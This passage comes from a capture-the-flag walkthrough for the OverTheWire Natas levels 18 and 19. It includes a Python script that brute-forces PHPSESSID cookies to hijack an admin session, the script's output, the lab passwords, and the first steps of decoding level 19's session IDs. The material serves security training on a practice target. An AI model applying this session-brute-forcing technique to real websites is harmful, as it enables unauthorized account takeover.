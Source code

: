 ```python
#! /usr/bin/env python3
import requests

baseUrl = 'http://natas18.natas.labs.overthewire.org/index.php'
for i in range(0, 640):
    print('Current i='+str(i))
    r = requests.get(baseUrl, auth=('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'), cookies={'PHPSESSID':str(i)})
    if 'You are an admin' in r.text:
        print('admin found for i='+str(i))
        break;
```
Terminal output:
```
Current i=117
Current i=118
Current i=119
admin found for i=119
```
Change your cookie PHPSESSID to 119 and get the password:
```
You are an admin. The credentials for the next level are:
Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

The password for the level 19 is `4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs`.

Reference:
- http://ha.xxor.se/2011/09/local-session-poisoning-in-php-part-1.html (not directly related but good to know)

### Level 19 -
```
http://natas19.natas.labs.overthewire.org/ natas19 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

Send `aaa` in the username field and check your cookie value. Sounds like a base64 encoded string. Try it in a script with `for i in range(0,5)` and add an `a` each time. *See [natas19-discovery.py](/assets/overthewire/natas19-discovery.py)* for source code

```bash
$ ./natas19.py
a               3234312d61          # 241-a
aa              3433302d6161        # 430-aa
aaa             38372d616161        # 87-aaa
aaaa            3539342d61616161    # 594-aaaa
aaaaa           3339352d6161616161  # 395-aaaaa
$ ./natas19.py
a               3336382d61          # 368-a
aa              3630362d6161        # 606-aa
aaa             3330362d616161      # 306-aaa
aaaa            3234302d61616161    # 240-aaaa
aaaaa           34352d6161616161    # 45-aaaaa
```
